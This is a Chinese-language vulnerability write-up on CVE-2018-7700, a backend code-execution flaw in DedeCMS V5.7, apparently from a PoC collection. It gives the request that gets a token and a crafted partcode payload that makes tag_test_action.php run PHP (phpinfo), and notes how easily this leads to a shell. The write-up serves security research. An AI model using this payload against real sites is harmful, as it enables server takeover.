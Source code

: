 # DedeCMS V5.7 后台代码执行漏洞（CVE-2018-7700）

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞描述

织梦内容管理系统(Dedecms)是一款PHP开源网站管理系统。该漏洞的触发文件为 /dede/tag_test_action.php。起因是 csrf_check() 函数的绕过，导致登陆后。可执行任意代码。

## CVE编号

CVE-2018-7700

## 漏洞影响

DedeCMS V5.7

DedeCMS V5.7 SP2

## 漏洞复现

测试版本为 5.7 SP2，描述中的 csrf_check 没有去验证，据说是因为登陆的时候不会生成 `$_SESSION['token']` ，因此登陆之后直接将 token 置空即可绕过，但我这里并没有觉得需要绕过这里，登陆后可以直接从其他地方获取 token ，这里主要关注代码执行漏洞。

还是一样，先获取一个 token

```plain
http://www.dedecms521.com/dede/tpl.php?action=upload
```

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650290581323-396cd58f-d586-43e5-bde0-48a4eae5f0ea.png)

然后就可以代码执行

```plain
http://www.dedecms521.com/dede/tag_test_action.php?token=05e0a0ab271dd01fd277c139a02940b6&partcode={dede:field name='source' runphp='yes'}phpinfo();{/dede:field}
```

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650290688835-9e5cc28c-e530-4ae1-9496-b74ec2c8fd5c.png)



## 总结

其实这个漏洞只是 dede 提供的一个标签代码测试的功能，但是被利用了，基本上只要进到后台，利用这个还是很容易getshell的，有关于 dede 的标签的构造的内容，很多都省去了，但对阅读应该没有太大的问题

该过程实际上就是

```plain
模板 -> 全局标记测试
```

然后填入自己的代码

```php
{dede:field name='source' runphp='yes'}phpinfo();{/dede:field}
```

这个 CVE 最着重的地方是这个 token 的绕过，但是不是只要是进入了后台，很容易就可以获取到 token 么，那这个 token 的绕过就没有太大必要了

## 参考

- `https://wiki.bylibrary.cn/漏洞库/01-CMS漏洞/DedeCMS/Dedecms V5.7后台任意代码执行CVE-2018-7700/`



`github` 链接：`https://github.com/d5shenwu/vulPOC`





